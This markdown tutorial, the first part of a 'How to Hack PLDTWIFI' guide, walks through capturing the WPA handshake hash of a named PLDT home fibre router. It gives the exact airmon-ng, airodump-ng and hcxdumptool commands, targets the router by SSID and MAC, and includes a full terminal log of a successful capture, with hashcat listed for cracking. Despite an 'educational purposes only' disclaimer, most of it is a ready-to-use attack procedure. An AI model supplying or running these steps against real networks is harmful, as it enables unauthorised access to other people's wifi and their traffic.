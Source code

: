 ### How to Hack PLDTWIFI Default Credetials (PART1)

	Author's Warning:
	- This video is for EDUCATIONAL PURPOSES ONLY. I own all equipment used for this demonstration. Only use the tools demonstrated in this video against networks you have permission to attack.

#### Requirements

1. TPLink AC600 (or any relevant wifi adapter) that can enable monitor mode.
	1. Other wifi adapters include: Alfa AWUS036ACH, Panda PAU05
	   

![](../img/Pasted%20image%2020220823192852.png)

2. Kali Linux Distro, or any other Linux Distro
3. Windows powershell


#### Steps

1. Open Linux OS in a virtual machine setting (using vmware, or  virtualbox). Then login to the machine and spawn a terminal, like so:
   

![](../img/Pasted%20image%2020220823192907.png)


![](../img/Pasted%20image%2020220823192919.png)

2. Check if the wifi adapter is connected and enabled in the machine. If you are using vmware workstation, you may check the status of the wifi adapter below, and status must be connected:

![](../img/Pasted%20image%2020220823192932.png)

3. Check if the wireless interface is up. On the terminal, type `lsusb`  and `iwconfig` to verify, like so:

![](../img/Pasted%20image%2020220823193002.png)
	As you can see, in our case, the bus 001 device is registered as Realtek RTL8811AU [Archer T2U Nano]. Further verification on iwconfig shows wlan0 interface with Mode: Managed.

4. Prepare the tools needed for the attack. The tools are the following:
	1. Check if repositories are updated. Perform `sudo apt-get update`
	 ![](../img/Pasted%20image%2020220823193018.png)
	2. Perform repositories upgrade. Use `sudo apt-get upgrade`
	   ![](../img/Pasted%20image%2020220823193041.png)
	3. airmon-ng - this is natively installed on Kali. Otherwise, perform `sudo apt-get install airmon-ng` to install the package.
	   
	4. hcxdumptool - perform `sudo apt-get install hcxdumptool`, like so. If there is no repository, you can perform `git clone https://github.com/ZerBea/hcxdumptool`
	   ![](../img/Pasted%20image%2020220823193106.png)
	5. hcxpcapngtool - perform `sudo apt-get install hcxpcapngtool`, like so. If there is no repository, you can perform `git clone https://github.com/ZerBea/hcxtools`
	   ![](../img/Pasted%20image%2020220823193127.png)
	6. airodump-ng - this is also native in Kali, however if you dont have this repository, perform `sudo apt-get install airodump-ng`
	7. hashcat - perform `sudo apt-get install hashcat` on Linux and go to https://hashcat.net/hashcat/ on Windows.
	   
	   ![](../img/Pasted%20image%2020220823193147.png)
5. Enable Wifi adapter in Monitor Mode. You can do this by performing `sudo airmon-ng check kill` first, then `sudo airmon-ng start wlan0`, like so
	   ![](../img/Pasted%20image%2020220823193204.png)
	   As you can see, after performing the syntax, upon performing `iwconfig`, the mode changed from "Managed" to "Monitor".

6. Perform reconaissance. Use the syntax `sudo airodump-ng wlan0` to scan for other wireless adapters:

	Another helpful tip: you can use `sudo airodump-ng wlan0 --band a` to scan 5GHz wifi adapters:
	
	![](../img/Pasted%20image%2020220823193227.png)

	The SSID that we will be attacking: PLDTHOMEFIBR5GBCRxh.
	Also, take note of the mac address. We will be using this later.

7. Perform further enumeration to filter only the mac address of the attacking router. Use `sudo airodump-ng wlan0 --band a -d 24:91:BB:40:62:44`, like so. Dont quit the monitoring:
   ![](../img/Pasted%20image%2020220823193242.png)
   Take note of the channel (CH) number, we will be using it later.
8. Open up another terminal. Then use the syntax `sudo hcxdumptool -i wlan0 -o test.pcapng --enable_status=1 -c 149`
   Where: 
	   -i = interface
	   -o = output file
	   --enable_status = filter only the needed protocol (1 is used for PKMID+EAPOL)
	   -c = channel
Once performed, wait patiently until you can see an out of the blue notification like this:

`07:06:28 5745/149 a2d5ba6cef07 2491bb406244 PLDTHOMEFIBR5GBCRxh [EAPOL:M2M3 EAPOLTIME:7498 RC:2 KDV:2]

If you get it, you have now captured the password hash of the attacking wifi adapter!

```
──(kali㉿kali)-[~]
└─$ sudo hcxdumptool -i wlan0 -o test.pcapng --enable_status=1 -c 149
[sudo] password for kali: 
initialization of hcxdumptool 6.2.6 (depending on the capabilities of the device, this may take some time)...
interface is already in monitor mode, skipping ioctl(SIOCSIWMODE) and ioctl(SIOCSIFFLAGS) system calls

start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
PHYSICAL INTERFACE........: phy0
INTERFACE NAME............: wlan0
INTERFACE PROTOCOL........: unassociated
INTERFACE TX POWER........: 0 dBm (lowest value reported by the device)
INTERFACE HARDWARE MAC....: 14ebb6ce0279 (not used for the attack)
INTERFACE VIRTUAL MAC.....: 5a512829a09f (not used for the attack)
DRIVER....................: rtl88XXau
DRIVER VERSION............: 5.18.0-kali5-amd64
DRIVER FIRMWARE VERSION...: 
openSSL version...........: 1.0
ERRORMAX..................: 100 errors
BPF code blocks...........: 0
FILTERLIST ACCESS POINT...: 0 entries
FILTERLIST CLIENT.........: 0 entries
FILTERMODE................: unused
WEAK CANDIDATE............: 12345678
ESSID list................: 0 entries
ACCESS POINT (ROGUE)......: 1011112cbeb4 (BROADCAST WILDCARD used for the attack)
ACCESS POINT (ROGUE)......: 1011112cbeb5 (BROADCAST OPEN used for the attack)
ACCESS POINT (ROGUE)......: 1011112cbeb6 (used for the attack and incremented on every new client)
CLIENT (ROGUE)............: b025aa87c352
EAPOLTIMEOUT..............: 20000 usec
EAPOLEAPTIMEOUT...........: 2500000 usec
REPLAYCOUNT...............: 65134
ANONCE....................: 51a04fa9485a0fc4bc9ef7a2cc7687146476cfe354e02b804015a0cc37c90f97
SNONCE....................: 981d9b2fb4486c9c1b2d0215fe5c4c59b4b49f183ee225e71f3838ed433edd74

TIME     FREQ/CH  MAC_DEST     MAC_SOURCE   ESSID [FRAME TYPE]
07:05:54     ERROR: 1 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 530000000]
07:05:55     ERROR: 2 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 550000000]
07:05:56     ERROR: 3 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 552000000]
07:05:57     ERROR: 4 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 556000000]
07:05:58     ERROR: 5 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 558000000]
07:05:59     ERROR: 6 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 560000000]
07:06:00     ERROR: 7 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 562000000]
07:06:01     ERROR: 8 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 566000000]
07:06:02     ERROR: 9 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 568000000]
07:06:03     ERROR: 10 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 570000000]
07:06:05     ERROR: 11 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 576500000]
07:06:06     ERROR: 12 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 580500000]
07:06:07     ERROR: 13 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 582500000]
07:06:08     ERROR: 14 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 586500000]
07:06:09     ERROR: 15 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 518000000]
07:06:10     ERROR: 16 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 520000000]
07:06:11     ERROR: 17 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 522000000]
07:06:12     ERROR: 18 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 524000000]
07:06:13     ERROR: 19 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 526000000]
07:06:14     ERROR: 20 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 528000000]
07:06:15     ERROR: 21 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 530000000]
07:06:16     ERROR: 22 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 550000000]
07:06:17     ERROR: 23 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 552000000]
07:06:18     ERROR: 24 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 554000000]
07:06:19     ERROR: 25 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 556000000]
07:06:20     ERROR: 26 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 558000000]
07:06:21     ERROR: 27 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 560000000]
07:06:22     ERROR: 28 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 564000000]
07:06:23     ERROR: 29 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 566000000]
07:06:24     ERROR: 30 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 568000000]
07:06:25     ERROR: 31 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 570000000]
07:06:26     ERROR: 32 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 572000000]
07:06:28     ERROR: 33 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 578500000]
07:06:28 5745/149 a2d5ba6cef07 2491bb406244 PLDTHOMEFIBR5GBCRxh [EAPOL:M1M2 EAPOLTIME:4275 RC:1 KDV:2]
07:06:28 5745/149 a2d5ba6cef07 2491bb406244 PLDTHOMEFIBR5GBCRxh [EAPOL:M2M3 EAPOLTIME:7498 RC:2 KDV:2]
07:06:28 5745/149 a2d5ba6cef07 2491bb406244 PLDTHOMEFIBR5GBCRxh [EAPOL:M3M4ZEROED EAPOLTIME:62 RC:2 KDV:2]
07:06:29     ERROR: 34 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 580500000]
07:06:30     ERROR: 35 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 582500000]
07:06:31     ERROR: 36 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 586500000]
07:06:32     ERROR: 37 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 520000000]
07:06:33     ERROR: 38 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 522000000]
07:06:34     ERROR: 39 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 524000000]
07:06:35     ERROR: 40 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 528000000]
07:06:36     ERROR: 41 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 530000000]
07:06:37     ERROR: 42 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 550000000]
07:06:38     ERROR: 43 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 552000000]
07:06:39     ERROR: 44 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 554000000]
07:06:40     ERROR: 45 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 558000000]
07:06:41     ERROR: 46 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 560000000]
07:06:42     ERROR: 47 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 564000000]
07:06:43     ERROR: 48 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 568000000]
07:06:44     ERROR: 49 [INTERFACE IS NOT ON EXPECTED CHANNEL, EXPECTED: 574500000, DETECTED: 570000000]
^C
terminating...
49 driver errors encountered
                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ 

```

